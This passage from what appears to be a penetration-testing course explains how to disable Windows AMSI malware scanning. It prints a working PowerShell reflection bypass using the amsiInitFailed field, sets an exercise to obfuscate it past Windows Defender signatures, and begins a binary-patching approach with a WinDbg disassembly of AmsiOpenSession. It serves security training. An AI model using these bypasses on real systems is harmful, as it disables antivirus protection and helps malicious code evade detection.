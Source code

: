 Manipulating a result variable set by _AmsiInitialize_ can also lead to another AMSI bypass through the _amsiInitFailed_ field, a technique first discovered by Matt Graeber[1](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5179-1) in 2016.

```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

> Listing 40 - AMSI bypass through amsiInitFailed field

The _amsiInitFailed_ field is verified by _AmsiOpenSession_ in the same manner as the _amsiContext_ header, which leads to an error.

The AMSI bypass in Listing 40 still works even though it was discovered in 2016, but the substrings 'AmsiUtils' and 'amsiInitFailed' have since been flagged as malicious.

We can reuse the dynamic discovery of types and fields from our _amsiContext_ AMSI bypass to evade the signatures and reuse this bypass.

Both AMSI bypasses rely on reflection, but as we'll discuss in the next section, we can also use the Win32 APIs to corrupt the AMSI functions themselves.

#### Exercise

1. Modify the original AMSI bypass shown in Listing 40 to bypass Windows Defender string signatures through dynamic filtering.

1

(Matt Graeber, 2016), [https://twitter.com/mattifestation/status/735261176745988096?lang=en](https://twitter.com/mattifestation/status/735261176745988096?lang=en) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5179-1)

## 10.4. Wrecking AMSI in PowerShell

In the last section, we used reflection to locate vital structures and variables that, when corrupted, will cause AMSI to be disabled. In this section, we'll modify the assembly instructions themselves instead of the data they are acting upon in a technique known as _binary patching_. We can use this technique to hotpatch the code and force it to fail even if the data structure is valid.

### 10.4.1. Understanding the Assembly Flow

Before we modify any code, we must first understand how the original code operates. To do that, we'll dump the content of _AmsiOpenSession_ with WinDbg:

```
0:018> u amsi!AmsiOpenSession L1A
amsi!AmsiOpenSession:
00007fff`aa0824c0 4885d2          test    rdx,rdx
00007fff`aa0824c3 7446            je      amsi!AmsiOpenSession+0x4b (00007fff`aa08250b)
00007fff`aa0824c5 4885c9          test    rcx,rcx
00007fff`aa0824c8 7441            je      amsi!AmsiOpenSession+0x4b (00007fff`aa08250b)
00007fff`aa0824ca 8139414d5349    cmp     dword ptr [rcx],49534D41h
00007fff`aa0824d0 7539            jne     amsi!AmsiOpenSession+0x4b (00007fff`aa08250b)
00007fff`aa0824d2 4883790800      cmp     qword ptr [rcx+8],0
00007fff`aa0824d7 7432            je      amsi!AmsiOpenSession+0x4b (00007fff`aa08250b)
00007fff`aa0824d9 4883791000      cmp     qword ptr [rcx+10h],0
00007fff`aa0824de 742b            je      amsi!AmsiOpenSession+0x4b (00007fff`aa08250b)
00007fff`aa0824e0 41b801000000    mov     r8d,1
00007fff`aa0824e6 418bc0          mov     eax,r8d
00007fff`aa0824e9 f00fc14118      lock xadd dword ptr [rcx+18h],eax
00007fff`aa0824ee 4103c0          add     eax,r8d
00007fff`aa0824f1 4898            cdqe
00007fff`aa0824f3 488902          mov     qword ptr [rdx],rax
00007fff`aa0824f6 7510            jne     amsi!AmsiOpenSession+0x48 (00007fff`aa082508)
00007fff`aa0824f8 418bc0          mov     eax,r8d
```